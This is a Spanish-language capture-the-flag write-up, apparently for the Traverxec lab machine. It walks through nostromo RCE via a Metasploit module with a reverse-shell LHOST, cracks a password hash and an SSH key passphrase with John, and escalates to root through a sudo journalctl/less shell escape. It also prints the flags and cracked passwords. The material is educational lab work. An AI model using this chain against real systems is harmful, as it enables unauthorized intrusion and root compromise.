






# Traverxec (Easy Linux)

**Author:** Ph4n3s
**Fecha:** 25/10/2026
**IP:** 10.129.80.148
**Dificultad:** Easy / Linux

---

## 1. Enumeración

### 1.1 Ping

```
ping -c 1 10.129.80.148
```

```
64 bytes from 10.129.80.148: icmp_seq=1 ttl=63 time=60.9 ms
```

TTL 63 → sistema Linux.

### 1.2 Puertos abiertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.80.148 -oN ports
```

```
22/tcp open  ssh
80/tcp open  http
```

### 1.3 Enumeración de tecnologías

```
nmap -p 80,22 -sVC -T4 --min-rate 5000 10.129.80.148 -oN targeted
```

```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
```

**nostromo 1.9.6** es un servidor web ligero con una RCE pública y bien documentada (CVE-2019-16278), así que vamos directos a explotarlo.

---

## 2. Explotación inicial

Usamos el módulo de Metasploit específico para esta versión:

```
use exploit/multi/http/nostromo_code_exec
set RHOSTS 10.129.80.148
set LHOST 10.10.16.120
set RPORT 80
run
```

Obtenemos una shell como `www-data`, con permisos muy limitados.

---

## 3. Post-explotación: de www-data a david

No tenemos acceso al directorio `/home/david`, así que enumeramos la configuración del propio servidor nostromo en `/var/nostromo/conf/`:

```
cat nhttpd.conf
```



El fichero `.htpasswd` (oculto, hay que listar con `ls -la`) contiene el hash de la contraseña web de `david`:

```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```



Lo crackeamos con John the Ripper:

```bash
echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```
Nowonly4me       (david)
```

`nhttpd.conf` también indica `homedirs_public → public_www`, es decir, cada usuario puede tener contenido servido en `http://host/~usuario/`. Con la contraseña recién obtenida accedemos al área protegida de david:

```bash
curl http://10.129.80.148/~david/protected-file-area/ -u david:Nowonly4me
```

Dentro hay un fichero `backup-ssh-identity-files.tgz`, que descargamos:

```bash
curl http://10.129.80.148/~david/protected-file-area/backup-ssh-identity-files.tgz -u david:Nowonly4me -o backup.tgz
tar -xvzf backup.tgz
```

```
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```



La clave privada está protegida con passphrase:



La extraemos en un formato que John pueda crackear y la atacamos con el mismo diccionario:

```bash
ssh2john home/david/.ssh/id_rsa > id_rsa_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
```

```
hunter          (./home/david/.ssh/id_rsa)
```



Con la clave ya descifrable, nos conectamos por SSH como `david`:

```bash
ssh -i home/david/.ssh/id_rsa david@10.129.80.148
```

```
USER FLAG -> a8bdc84f3fd32e9597417ff7447f7ba5
```

---

## 4. Escalada de privilegios: de david a root

Ya dentro, revisamos el directorio personal de herramientas del usuario:

```
david@traverxec:~$ ls bin/
server-stats.head  server-stats.sh
```

```
cat bin/server-stats.sh
```

El script muestra que ejecuta, entre otras cosas:

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Confirmamos con `sudo -l` que `david` puede lanzar exactamente ese comando como root sin contraseña. También comprobamos que el propio script no se puede sobrescribir (`chattr`/inmutable), así que atacamos directamente el comando permitido:



```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
```

`journalctl` abre internamente un paginador (`less`) con privilegios de root, al ser un proceso hijo del propio `sudo`. `less` tiene un atajo clásico de escape a shell:

```
!/bin/sh
```

Esto nos da una shell como **root**. Navegamos a `/root` y leemos la flag final:

```
ROOT FLAG -> 786d5a52942ffcbc6bda07db118cb418
```

---

## Resumen rápido

**Qué era la máquina:** un servidor nostromo 1.9.6 vulnerable a RCE (CVE-2019-16278), cuya propia configuración filtraba credenciales que llevaban, en cadena, hasta una clave SSH y finalmente a un binario mal configurado en sudoers.

**Enumeración:** `nmap` → SSH (22) y nostromo 1.9.6 en HTTP (80), versión con RCE pública conocida.

**Acceso inicial:** módulo de Metasploit `nostromo_code_exec` → shell como `www-data`.

**De www-data a david:** la propia configuración de nostromo (`nhttpd.conf`) revela dónde está el `.htpasswd` → se crackea con John → la contraseña web permite acceder a un área protegida con un backup de las claves SSH de `david` → la clave privada está cifrada, pero su passphrase también cae con John (`ssh2john` + `rockyou.txt`) → acceso por SSH como `david`.

**De david a root:** `sudo -l` muestra permiso para ejecutar `journalctl` sobre el servicio de nostromo sin contraseña → `journalctl` invoca internamente `less` como paginador, heredando privilegios de root → el atajo de escape de `less` (`!/bin/sh`) da una shell como root.

**Concepto clave aprendido:** una cadena de privilegios no siempre pasa por un único fallo grave; aquí fueron tres eslabones menores (credenciales en texto plano dentro de un backup, una contraseña débil crackeable por diccionario, y un binario permitido por sudo que internamente invoca un programa con capacidad de escapar a shell) los que, encadenados, llevan de acceso anónimo a root completo.

---

**Flags:**
- `david/user.txt` → `a8bdc84f3fd32e9597417ff7447f7ba5`
- `root.txt` → `786d5a52942ffcbc6bda07db118cb418`
